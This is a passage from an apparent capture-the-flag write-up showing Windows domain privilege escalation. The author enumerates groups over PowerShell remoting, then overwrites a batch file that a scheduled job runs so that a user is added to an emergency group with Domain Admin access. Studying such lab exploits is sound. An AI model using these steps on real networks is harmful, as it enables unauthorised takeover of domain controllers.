Invoke-Command atsserver -ConfigurationName dc_manage -Credential $cred -ScriptBlock { net group /domain }

Group Accounts for \\

-------------------------------------------------------------------------------
*Cloneable Domain Controllers
*DnsUpdateProxy
*Domain Admins
*Domain Computers
*Domain Controllers
*Domain Guests
*Domain Users
*Enterprise Admins
*Enterprise Key Admins
*Enterprise Read-only Domain Controllers
*Group Policy Creator Owners
*Key Admins
*Managers
*Protected Users
*Read-only Domain Controllers
*Schema Admins
*Site_Admin
The command completed with one or more errors.
```

The comment of the group says that the group is only enabled in emergencies.
Also, it has access to Domain Admin group, which is critical.

```powershell
PS C:\Users\jmorgan\Documents> Invoke-Command atsserver -ConfigurationName dc_manage -Credential $cred -ScriptBlock { net group Site_Admin /domain }
Invoke-Command atsserver -ConfigurationName dc_manage -Credential $cred -ScriptBlock { net group Site_Admin /domain }
Group name     Site_Admin
Comment        Only in the event of emergencies is this to be populated. This has access to Domain Admin group

Members

-------------------------------------------------------------------------------
The command completed successfully.
```

I put `net group site_admin awallace /add /domain` command to add current user to `site_admin` group.

```powershell
PS C:\Users\jmorgan\Documents> Invoke-Command -ComputerName ATSSERVER -ConfigurationName dc_manage -Credential $cred -ScriptBlock { Set-Content -Path '\program files\keepmeon\0x7377.bat' -Value 'net group site_admin awallace /add /domain'}


PS C:\Users\jmorgan\Documents> Invoke-Command -ComputerName ATSSERVER -ConfigurationName dc_manage -Credential $cred -ScriptBlock { cat '\program files\keepmeon\0x7377.bat'}

net group site_admin awallace /add /domain
```

Then, I waited more than 5 minute as the comment of the script says.
Soon, I can see that `awallace` is added to `site_admins` group..

```powershell
PS C:\Users\jmorgan\Documents> Invoke-Command atsserver -ConfigurationName dc_manage -Credential $cred -ScriptBlock { net group Site_Admin /domain }
Group name     Site_Admin
Comment        Only in the event of emergencies is this to be populated. This has access to Domain Admin group

Members

-------------------------------------------------------------------------------
awallace                 
The command completed successfully.
```

Then I can access to `Administrator`'s Desktop as well.

```powershell
PS C:\Users\jmorgan\Documents> Invoke-Command -ComputerName ATSSERVER -Credential $cred -ScriptBlock { ls C:\Users\Administrator\Desktop }

    Directory: C:\Users\Administrator\Desktop
Mode       LastWriteTime         Length   Name         PSComputerName                    
-------------------------------------------------------------------------------
-ar---     12/03/2025  15:30     34       root.txt      ATSSERVER    
```
